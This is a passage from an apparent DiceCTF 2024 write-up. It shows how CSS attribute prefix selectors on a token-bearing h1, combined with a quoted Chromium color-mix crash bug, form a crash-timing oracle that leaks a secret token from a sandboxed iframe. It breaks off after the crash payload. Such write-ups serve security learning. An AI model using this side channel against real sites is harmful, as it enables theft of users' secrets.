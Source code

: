 So, we have to exfiltrate the token in the h1 tag in the sandboxed iframe, somehow.

## Accessing token via css

We note something strange - the h1 that contains the token also has an extra attribute `data-token`:

{% ccb lang:html %}
<h1 data-token="${token}">${token}</h1>
{% endccb %}

We can use an [attribute selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors) to test for it, like

```html
<style>
    [data-token = "000000"]{
        color: #69b00b;
    }
</style>
```

![](/static/DiceCTF2024/another-csp2.png)

We only need to match the *start* of the attribute using `^=`

```html
<style>
    [data-token ^= "0"]{
        color: #b00b69;
    }
</style>
```

![](/static/DiceCTF2024/another-csp3.png)


## Crash Timing Oracle

This is the intended solution

> https://issues.chromium.org/issues/41490764
> Steps to reproduce the problem:
> 1. Create a color using color-mix. `--c1: color-mix(in srgb, blue 50%, red);`
> 2. Use it with relative color syntax. `--c2: srgb(from var(--c1) r g b);`
> 3. Try to display it somewhere: `background-color: var(--c2);`
> 4. Observe the Aw, Snap! page.

Sure enough, if we insert the crash:

```html
<style>
    [data-token ^= "0"]{
        --c1: color-mix(in srgb, blue 50%, red);
        --c2: srgb(from var(--c1) r g b);
        background-color: var(--c2);
    }
</style>
```
